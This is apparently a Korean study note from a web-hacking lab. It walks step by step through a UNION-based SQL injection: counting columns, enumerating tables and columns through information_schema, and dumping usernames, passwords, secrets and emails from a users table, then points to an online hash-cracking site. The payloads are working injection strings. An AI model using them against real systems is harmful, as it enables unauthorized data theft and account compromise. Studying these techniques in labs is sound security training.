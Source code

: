 → Account number is valid. ⇒ 참

→ Invalid account number. ⇒ 거짓





----------------------------------------------------------------------------------------------------------------------------------------------

\#1 컬럼 개수 조회

man' order by 1 #

​	:

man' order by 8 #

Error: Unknown column '8' in 'order clause'  ⇒ 컬럼의 개수는 7개이다.

\#2 UNION 구문을 이용해서 숫자를 출력

man' and 1=2 union select 1,2,3,4,5,6,7 #

Title 	Release 	Character 	Genre 	IMDb

2 	3 	5 	4 	Link  ⇐ 2, 3, 4, 5번째 컬럼 정보만 사용자 화면에 출력된다.

\#3 UNION 구문을 이용해서 DB 정보를 조회

man' and 1=2 union select 1,2,@@version,4,5,6,7 #

\#4 information_schema.tables 시스템 테이블을 이용해서 사용자 테이블을 조회

man' and 1=2 union select 1,table_name,3,4,5,6,7 from information_schema.tables #

\#5 users 테이블에 컬럼 정보를 조회 (information_schema.columns)

man' and 1=2 union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'users' #

\#6 users 테이블에서 id, login, password, secret, email 정보를 조회

man' and 1=2 union select 1,id,login,password,concat(secret,' : ',email),6,7 from users #





<https://crackstation.net/>

해쉬 함수 풀 수 있음